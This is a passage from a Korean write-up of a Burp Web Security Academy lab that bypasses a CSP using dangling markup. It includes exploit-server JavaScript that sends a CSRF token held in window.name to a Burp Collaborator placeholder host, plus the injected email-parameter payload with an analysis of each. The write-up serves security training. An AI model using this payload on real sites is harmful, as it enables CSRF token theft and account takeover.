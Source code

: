 4. CSP 헤더를 우회하는 방법을 생각해야 한다. exploit 서버를 다음과 같이 구성한다. 

```html
<script>
if(window.name) {
    new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
} else {
    location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

exploit 분석 

이 코드가 exploit서버에서 로딩되면, window.name이 있는지 체크한다. 
1) window.name이 있으면 새로운 이미지를 만들고, src속성을 Burp Collaborator의 URL 및 window.name 으로 지정한다. (window.name에는 중요정보가 포함되어 있다.)

2) window.name이 없으면 랩서버의 XSS 취약점이 있는 곳에 지정된 페이로드를 삽입한다. 


페이로드 분석

랩 서버의 XSS취약점이 있는 곳인 email 파라메터에 삽입되는 페이로드를 살펴본다. 디코딩해서 보면 다음과 같이 생겼다. 

```html
"><a href="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit">Click me</a><base target='
```
- 앵커태그의 href에 exploit서버를 지정하였다. 
- 앵커태그 뒤에 '댕글링 마크업' 테크닉으로 열린 base태그 및 target속성, 그리고 열린 따옴표가 있다. 이 페이로드가 랩 서버에 삽입되면, 다음과 같은 형태가 될 것이다. base 태그의 target 값에 csrf토큰을 포함한 히든 인풋 부분이 포함된 것을 알 수 있다. (열린 따옴표를 썼으므로, 닫는 따옴표가 등장할 때까지가 taget속성의 값이 된다.) 또한, base태그를 썼기 때문에 모든 태그의 target속성의 값이 base태그에 설정된 target속성 값으로 덮어쓰여 진다. target속성 값은 exploit서버에서 javascript로 window.name 으로 접근해서 얻어낼 수 있다. 


```html 
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value=""><a href="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit">Click me</a><base target='">
    <input required type="hidden" name="csrf" value="cbDL5fqgd4OhsKFL0QNppM7WrNomqy5T">
    <button class='button' type='submit'> Update email </button>
</form>
```

![](/images/burp-academy-xss-30-4.png)
